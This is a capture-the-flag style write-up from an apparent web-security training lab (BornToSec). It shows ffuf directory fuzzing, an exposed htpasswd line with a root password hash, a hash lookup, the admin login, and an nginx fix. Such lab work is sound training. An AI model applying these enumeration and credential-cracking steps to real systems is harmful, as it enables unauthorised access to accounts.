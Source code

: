 # Credentials Exposure via htpasswd

## 📖 Vulnerability Explanation
Credential exposure is a misconfiguration vulnerability that happens when private authentication information is exposed to non authorized users.

In this exercise, we can find a username and hash combination publicly available. We can then use these to authenticate on the admin page.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:

```
ffuf -u 'http://BornToSec.com/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://BornToSec.com/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

We find a htpasswd file in the ```whatever/``` directory. After downloading the file, we can see a username and hash combination.
```

root:437394baff5aa33daa618be47b75cb49
```

---

- Check the hash value:

![](./CrackStation.png)

---

Use the credentials obtained to login on the ```admin/``` directory and get the flag.

## 🧰 Additional Resources Used
In order to enumerate web directories we used ```ffuf```, a compiled web fuzzer written in go.

- https://github.com/ffuf/ffuf

The wordlist we used is part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

We used https://crackstation.net/ to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The file ```htpasswd``` or any file containing credentials should never be exposed. Configuring nginx to protect this file prevents unauthorized access.

## ☝️🤓 Advanced explanation
A properly configured nginx config file would look like this:

```
server {
    listen 80;
    server_name BornToSec.com;

    root /var/www/html;

    location /admin/ {
        auth_basic           "Restricted Area";
        auth_basic_user_file /etc/nginx/.htpasswd;
    }

    location ~ /\.htpasswd {
        deny all;
    }

    location / {
        index index.php;
    }
}
```